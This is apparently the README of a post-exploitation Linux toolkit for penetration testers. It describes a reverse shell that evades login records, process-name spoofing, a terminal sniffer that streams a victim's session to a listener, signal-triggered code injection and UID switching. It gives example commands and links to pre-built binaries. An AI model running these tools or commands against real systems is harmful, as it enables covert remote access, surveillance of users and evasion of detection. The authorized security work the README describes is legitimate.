 # PELT #

***
**What is PELT?**

_PELT_ is the Post Exploitation Linux Toolkit. It is intended as a collection of Linux user space tools designed to assist pentesters during the post-exploitation phases of their engagement. The tools appear here as pre-built binaries for easy access in the field.

These tools are each projects of mine with their own Github pages. Please refer to these project pages for full descriptions as well as source code.

***
### _revsh_ ###

_revsh_ is a reverse shell. It was designed to meet the needs of pentesters facing long engagements. The features include:

 * Full terminal support.
 * Unicode support.
 * Circumvention of the login record. (utmp / wtmp)
 * rc file support for launching recurring / cutomized commands upon login.
 * OpenSSL encryption with key based authentication baked into the binary.
 * Anonymous Diffie-Hellman encryption upon request.
 * Ephemeral Diffie-Hellman encryption as default.
 * Cert pinning for protection against sinkholes and mitm counter-intrusion.
 * Connection timeout for remote process self-termination.
 * Randomized retry timers for non-predictable auto-reconnection.
 * Netcat style non-interactive data brokering for file transfer.

Project page: [https://github.com/emptymonkey/revsh](https://github.com/emptymonkey/revsh)

Pre-built binaries: [x86_64-Linux](https://github.com/emptymonkey/PELT/raw/master/revsh/revsh-x86_64-Linux), [i686-Linux](https://github.com/emptymonkey/PELT/raw/master/revsh/revsh-i686-Linux), [amd64-FreeBSD](https://github.com/emptymonkey/PELT/raw/master/revsh/revsh-amd64-FreeBSD)

Tarball of the keys / certs used with these binaries: [keys.tar](https://github.com/emptymonkey/PELT/raw/master/revsh/keys.tar) 

Example:

	empty@monkey:~$ ./revsh -c 

	user@target:~$ ./revsh

Note: The pre-built binaries here use the default keys provided. If you are using this anywhere sensitive, you are strongly encouraged to download the source and build your own copy. This will generate unique keys / certs. As always, your mission is only as secure as your key management process.


***
### _mimic_ ###

_mimic_ is a tool that allows a user to run a program, but have it show up in the process table as something different. The name in the process listing can be any string. _mimic_ does **not** require root privileges.

Project page:	[https://github.com/emptymonkey/mimic](https://github.com/emptymonkey/mimic)

Pre-built binaries: [x86_64-Linux](https://github.com/emptymonkey/PELT/raw/master/mimic)

Example:

	empty@monkey:~$ ./mimic -e "/bin/bash" -m "/sbin/getty 38400 tty0"

***
### _set_target_pid_ ###

_set_target_pid_ is a simple program that resets the Process ID (PID) numbers being issued by the system as close as possible to a target. This program is part of the _mimic_ project. This program does **not** require root privileges.

Project page:	[https://github.com/emptymonkey/mimic](https://github.com/emptymonkey/mimic)

Pre-built binaries: [x86_64-Linux](https://github.com/emptymonkey/PELT/raw/master/set_target_pid)

Example:

	empty@monkey:~$ ./set_target_pid 1

Note: The target PID is only a target. _set_target_pid_ will try to get as close as possible, but that PID may simply not be available. The PIDs smaller than 300 appear to be reserved for kernel threads. If you request a PID of '1', then look for the result around '300'. Finally, after you set the PIDs being issued to your target and you have launched your payload, don't forget to reset the PIDs again to where they were before.

***
### _shelljack_ ###

_shelljack_ is terminal sniffer. (This is similar to a keystroke logger, but it gathers all input **and** output.) _shelljack_ does **not** require root privileges (except on Ubuntu systems).

Project page:	[https://github.com/emptymonkey/shelljack](https://github.com/emptymonkey/shelljack)

Pre-built binaries: [x86_64-Linux](https://github.com/emptymonkey/PELT/raw/master/shelljack)

Example:

	empty@monkey:~$ ncat -l 192.168.1.42 9999

	user@target:~$ ./shelljack 192.168.1.42:9999 $$

Note: _shelljack_ uses ptrace() to attach to processes. Because Ubuntu is patched specifically against this type of attack, _shelljack_ won't work on Ubuntu systems unless it is run as root. 

***
### _sigsleeper_ ###

_sigsleeper_ injects malicious code into a process that can be triggered by sending that process a signal. This type of attack is best describes as a "malicious signal handler injection with ptrace" attack. Because the injected code will sit quietly until it receives it's signal, at which point it will then launch its payload, I refer to this as "sleeper code". _sigsleeper_ does **not** require root privileges (except on Ubuntu systems).

Project page: [https://github.com/emptymonkey/shelljack](https://github.com/emptymonkey/shelljack)

Pre-built binaries: [x86_64-Linux](https://github.com/emptymonkey/PELT/raw/master/sigsleeper)

Example:

	empty@monkey:~$ sigsleeper -f -e '/bin/echo Hello world!' $$
	empty@monkey:~$ kill -USR1 $$
	empty@monkey:~$ Hello world!

Note: _sigsleeper_ uses ptrace() to attach to processes. Because Ubuntu is patched specifically against this type of attack, _sigsleeper_ won't work on Ubuntu systems unless it is run as root.

***
### _pretend_ ###

_pretend_ is a very simple program that changes your UID / GIDs. _pretend_ **does** require root privileges. This program is useful for programmatically changing your UID on the fly without requiring that the UID maps to a valid account on the host. There are a class of attacks for which this tool is very nice to have available.

Project page: [https://github.com/emptymonkey/pretend](https://github.com/emptymonkey/pretend)

Pre-built binaries: [x86_64](https://github.com/emptymonkey/PELT/raw/master/pretend)

Example: 

	empty@monkey:~$ sudo pretend 5:26:103:110:50 id
	uid=5(games) gid=26(tape) groups=60(games),50(staff),103(ssh),110(kvm)


***
### A Quick Note on Ethics ###

I write and release these tools with the intention of educating the larger [IT](http://en.wikipedia.org/wiki/Information_technology) community and empowering legitimate pentesters. If I can write these tools in my spare time, then rest assured that the dedicated malicious actors have already developed versions of their own.

